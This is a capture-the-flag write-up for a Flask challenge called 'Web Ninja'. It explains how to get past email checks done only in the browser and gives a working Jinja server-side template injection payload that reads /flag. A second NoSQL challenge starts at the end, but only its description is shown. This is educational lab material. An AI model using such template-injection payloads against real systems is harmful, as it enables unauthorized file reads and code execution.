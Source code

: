 ## Web Ninja (15 points)

> Do you want to become the ultimate master at building websites?
> 
> Join the **Web Ninja Course** today and learn how to design websites using modern frameworks such as **Flask**.
> 
> **Find a remote code execution vulnerability on the website and exploit it to get the flag at `/flag` on the server!**

The description calls for remote code execution on Flask. The references to ninja likely means that the RCE is through a Server-Side Template Injection on *Jinja*.

Email verification is done only on client-side.
```html
<form action="/signup" method="post" id="signup-form">
	<input type="email" placeholder="Email" name="email" value=""><br>
	<input id="form-submit" type="submit" value="Submit"><br>
</form>
```

Remove the attribute `type="email"`, and input `{{ request['application']['__globals__']['__builtins__']['open']('/flag').read() }}`.

![SQL: `CTF{tH3s3_n1Nj4s_aR3_h3cK1nG_mY_jInjA_t3MpLatEs!!one!}`](images/web-ninja.png)

## No SQL Injection 1 (15 points)
> I have heard all about the issues that SQL injection attacks can cause.
> 
> So I decided to not use a relational database system and use a **NoSQL** backend database instead. This way my secure website cannot be vulnerable to any SQL injection attacks!
>
> **Can you test my login page to prove that I am correct and my website is secure?**
> 
> The goal is to successfully login and view the admin page.
